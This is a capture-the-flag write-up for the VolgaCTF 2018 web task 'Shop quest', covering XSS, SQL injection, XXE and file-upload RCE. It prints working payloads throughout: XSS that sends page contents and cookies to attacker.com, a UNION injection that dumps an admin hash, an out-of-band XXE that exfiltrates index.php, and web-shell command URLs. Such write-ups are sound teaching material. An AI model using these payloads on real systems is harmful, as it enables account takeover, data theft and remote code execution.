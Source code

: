 # Shop quest
Category: Web Points: 500 Solves: 0 Description:

For this task, teams could get 500 points, so it consisted of several stages that led to the execution of the code. 
Unfortunately, because of the heavy workload, the task sometimes worked slowly, but it was still possible to solve it. 
Nobody received the flag, although some teams went 2 stages out of three and almost reached the goal. 
I hope that to solve it in any case was interesting and glad that many attempted to get the flag.

## Stage one - Client side
Firstly, we can see a main page. In the browser console, we can see the name of the Vue.js framework used to chat with the operator.
Secondly, in source code we can see injection point, there is the customer name, which is specified at registration.

![XSS in name parameter](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "XSS in name")

This XXS will work on the operator page. 
Final attack vector for stealing Operator info:
```
${toString.constructor('var http=new XMLHttpRequest();http.open("POST","http://attacker.com/?bot", true);http.setRequestHeader("Content-type","application/x-www-form-urlencoded");http.send("res="+btoa(unescape(encodeURIComponent(document.body.innerHTML))));')()}
```
On *attacker.com* we can see the page where the operator is located reads our message.
Decode this page and find operator's password:

*Change your default password: Floise_default_@@@f*

But, you can ask: "Where can I find the login? Login "Operator" doesn't work!"
Ok) We can see non http only cookie - *userId*. This is IDOR. We can steal operator's cookie and make request on the server with it.

```${toString.constructor('document.location = "http://attacker.com/?"+document.cookie')()}```

![IDOR in userId](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "IDOR exploitation")

Login as Operator:

login: Mark_323212

Password: Floise_default_@@@f

## Stage 2 - SQL Injection

![Operator's page](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Operator's page")

Here we can see operator's page. The operator has three additional methods:

+ GET /Chat/getMessages?chatId=1
+ GET /Operator/chat?chatId=1
+ POST /Chat/sendToClient

After a few minutes of fuzzing we can see that the first one may response with 500 status code.
Unfortunately, automatic scanners will not give anything here. We need professional pentester's skills!

+ /Chat/getMessages?chatId=1'--+-
+ /Chat/getMessages?chatId=1"--+-
+ /Chat/getMessages?chatId=1`--+-

WoW! The third one retrieve status code 200! So, there is injection in chat table name.

```SELECT * FROM `chat_<chatId>````

This is UNION based injection and we can see output. 
After a difficult dumping of the database structure, we learn the login and password hash of the admin.

Query:
```
http://shop-quest.quals.2018.volgactf.ru/Chat/getMessages?chatId=1`+union+select+login,hash,role,4+from+users+where+role=3--+-
```

Answer:
```
{"status":"ok","messages":[{"id":"1","text":"Hi. man","is_operator":0,"time":"11:02 PM"},{"id":"2","text":"May the Force be with you","is_operator":1,"time":"11:02 PM"},{"id":"3","text":"sdfsdf","is_operator":1,"time":"11:06 PM"},{"id":"Bibant","text":"3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c","is_operator":3,"time":"4"}]}
```

*Bibant / 3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c*

Hash is sha256. The first thing that comes to mind is the online brute password. It's success.

Login as Admin:

login: Bibant

Password: insaneclownposse

## Stage 3 - RCE

This stage is final and alows uploadin php shell. There is simple extension filter in upoads, words *php* and *htm* are replaced by empty string.

We have simple bypass like: *shell.pphphp*

When we upload a file, we obtain the generated random name for it. 

![Shell ulpoad](https://github.com/adam-p/markdown-here/raw/master/src/common/images/icon48.png "Shell ulpoad")

But where is our shell? Let's read source code of site. We have the ability to save product info in XML format. Maybe XXE? YES!

However, even if the file is valid, the error is returned, that the functionality does not work yet.

*{"status":"error","message":"Table `goods` doesn't exist"}*

Let's try OOB XXE, and read index.php. There is exist on the server maybe. Send this payload:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker.com/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

oob.xml
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?%data;'>">
```

We recieved index.php and than we have to read several files to find the file download code:
```
require_once 'utils/Core.php';
```

*utils/Core.php*
```
foreach ( glob( $_SERVER['DOCUMENT_ROOT'] . '/controllers/*Controller.php' ) as $filename ) {
```

*controllers/AdminController.php*
```
require_once 'utils/Uploader.php';
```

Finally, file is uploaded to:
```
/uploads_FjsyFkf/md5(user_login . asdasHF$&@(F&@)AF)JFN)/
```

user_login = Bibant, and we can finally find the flag:

[http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag*](http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag* "Find flag")

[http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag*](http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag* "Read flag")

Flag is: VolgaCTF{30ff764e5e70f8df3d3f6944c12d0f1a}

P.S. If you have read to the end, you are already a hero)




